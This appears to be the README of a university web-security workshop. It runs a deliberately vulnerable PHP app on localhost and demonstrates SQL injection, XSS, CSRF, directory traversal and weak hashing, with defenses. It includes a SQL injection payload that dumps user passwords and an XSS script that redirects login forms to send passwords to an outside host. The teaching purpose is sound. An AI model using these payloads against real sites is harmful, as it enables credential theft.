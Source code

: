 > **DISCLAIMER: code in this demonstration are intentionally vulnerable. Do not use this code in your application!**

# Web Application Security Demo
Designed for students of [KIV/WEB](https://courseware.zcu.cz/portal/studium/courseware/kiv/web) of [University of West Bohemia](http://www.zcu.cz/en/)

> Older version of this workshop is available [here](https://github.com/intraworlds/zcu-security-demo)

## Presentation
[Slides](PRESENTATION.pdf)

## Development
### Requirements
- PHP >=7.1
- PHP extensions PDO and pdo_sqlite

### Installation
Clone this repository `git clone https://github.com/intraworlds/workshop-web-security.git` or download [ZIP file](https://github.com/intraworlds/workshop-web-security/archive/master.zip)

### Run
Inside downloaded project run
```bash
php -S 127.0.0.1:8080
```

Then goto http://127.0.0.1:8080/

### Simulate attacks

#### SQL injection
- go to http://127.0.0.1:8080/sql-injection
- search for `' UNION SELECT name,password FROM user --`
- observe disclosed password

##### Defense
Prepare statement
```php
// prepare SQL statement on DB without arguments
$statement = $pdo->prepare($sql);

// send arguments separately (safely)
$statement->execute(['%' . $query . '%']);

// execute as normal
$users = $statement->fetchAll();
```

#### XSS
- goto http://127.0.0.1:8080/xss
- put following comment
```html
❤️<script>
var form = document.querySelector('form');
form.setAttribute('action', 'https://httpbin.org/post');
form.setAttribute('target', '_blank');
</script>
```
- observe that all following backer are sending passwords to malicious server

##### Defense
escape your outputs
```php
echo htmlspecialchars($comment);
```

#### CSRF
- goto http://127.0.0.1:8080/csrf
- login
- open http://127.0.0.1:8080/kittens.php
- go back to http://127.0.0.1:8080/csrf
- observe that new order was created under your login

##### Defense
use `$_POST` for request which modifies data
```php
// verify CSRF token send with form is valid
if ($_SESSION['csrf'] !== $_POST['csrf']) {
    http_response_code(403);
    exit;
}

// generate CSRF token for the next request
$_SESSION['csrf'] = bin2hex(random_bytes(16));
```

#### Directory traversal
- todo http://127.0.0.1:8080/.git/HEAD
- observe that you have complete access to `.git` folder therefore to all files

##### Defense
- build application without `.git`
- separate public content (images, styles, etc.)
- adjust configuration of your web server, eg.
```
# denied all files
<RequireAll>
    Require all denied
</RequireAll>

# whitelist only *.php and other files
<Directory "public">
    <FilesMatch "((^$)|(^.+\.(css|map|js)$))">
        Require all granted
    </FilesMatch>
</Directory>
```


#### Weak hash algorithm
- obtain password hashes by SQL injection attack
- crack passwords by arbitrary online cracker (Rainbow table)

## Resources

- [Full list of attacks](https://www.owasp.org/index.php/Category:Attack)
- Twitter
  - Michal Špaček [@spazef0rze](https://twitter.com/spazef0rze)
  - Vladimír Smitka [@smitka](https://twitter.com/smitka)

### XSS (Cross-site Scripting)
 - [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
 - [OWASP XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
 - [OWASP testing for XSS](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)
 - [PHP triky: Cross Site Scripting](https://php.vrana.cz/cross-site-scripting.php) (czech only)

### HTTP Headers
 - [X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
 - [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

### SQL injection
 - [OWASP SQL injection](https://www.owasp.org/index.php/SQL_Injection)
 - [Soom: SQL Injection (Full Paper)](https://www.soom.cz/clanky/1180--SQL-Injection-Full-Paper#sekce5) (czech only)
 - [PHP triky: Obrana proti SQL Injection](https://php.vrana.cz/obrana-proti-sql-injection.php) (czech only)

### CSFR (Cross-Site Request Forgery)
 - [OWASP CSFR](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
 - [Soom](https://www.soom.cz/clanky/484--Cross-Site-Request-Forgery) (czech only)
 - [PHP triky: Cross-Site Request Forgery](https://php.vrana.cz/cross-site-request-forgery.php) (czech only)
 - [Co je Cross-Site Request Forgery a jak se mu bránit](https://www.zdrojak.cz/clanky/co-je-cross-site-request-forgery-a-jak-se-branit/) (czech only)

### Path (Directory) Traversal
 - [OWASP Path Traversal](https://www.owasp.org/index.php/Path_Traversal)

### Others
 - [Self tweeting tweet](https://twitter.com/derGeruhn/status/476764918763749376)
 - [XSS in Avast Desktop AntiVirus](https://medium.com/bugbountywriteup/5-000-usd-xss-issue-at-avast-desktop-antivirus-for-windows-yes-desktop-1e99375f0968)
